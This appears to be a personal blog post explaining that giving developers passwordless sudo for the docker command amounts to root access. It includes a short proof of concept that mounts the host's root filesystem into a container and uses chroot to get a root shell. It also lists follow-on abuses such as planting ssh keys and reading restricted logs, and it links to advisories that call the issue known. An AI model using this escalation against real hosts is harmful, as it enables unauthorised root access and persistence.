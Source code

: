 +++
date = "2016-05-03T22:52:41-04:00"
draft = false
title = "Docker...root...root...Docker (a.k.a. the docker group is a backdoor)"
categories = ["docker", "security"]

+++

While working with docker related stuff and when I use volume mount to a subdir of my home dir, I always come across the issue of the container littering folders with `root:root` permission in my home folder and then I have to `sudo rm ...` it, for example:

    docker run -d $(pwd)/data:/var/lib/mysql/data mysql

It always annoys me but today, it came to me like an epiphany that this is actually a pretty severe security vulnerability.

At `$DAYJOB`, our build machines and staging hosts are all locked down, so we developers don't have `sudo` privilege to run anything **except** `/usr/bin/docker`, so it's `/etc/sudoers` file have something to the effect of:

   %dev            ALL =(root) NOPASSWD: /usr/bin/docker

This is fine and dandy for other commands, but with `docker`, when you run it with `sudo`, you *are* essentially `root`, inside the container and outside. I thought: what if I create an image, and volume mount `/` into the image? Wouldn't that give me root privilege to everything?

A quick proof of concept proved my suspicion:

    $ docker run -it --rm -v /:/mnt alpine /bin/sh
    / # chroot /mnt
    root@0a327dad801b:/# ls /
    bin   config   dev  home        initrd.img.old  lib64  logs        media  opt   root  sbin     srv  syslog-logs  usr  vmlinuz
    boot  content  etc  initrd.img  lib             local  lost+found  mnt    proc  run   selinux  sys  tmp          var  vmlinuz.old

Hey, I have a *root shell* on the host machine where my user account has only limited permissions. Once I'm root, the possibility is endless: I can `cd` into `/home/opsuser`, and insert an ssh key I own to their `~/.ssh/authorized_keys` file and suddenly I can `ssh` as that user without this docker backdoor. I can setup a MITMproxy and capture all traffic on the host. I can inspect the log files I'm not suppsed to see, etc etc etc. Of course I'm not going to do that, but just thinking of it gives me chills, and what if some rogue employee discovers this and either steals my account credentials or impersonates me?

Anyhow, I thought that was quite a revelation, and was about to email security@docker.com, until I searched online. Apparently, this is a [known](http://reventlov.com/advisories/using-the-docker-command-to-root-the-host) [security vulnerability](https://fosterelli.co/privilege-escalation-via-docker.html) that Docker does not consider as such. Once again, the Internet beat me to it :(
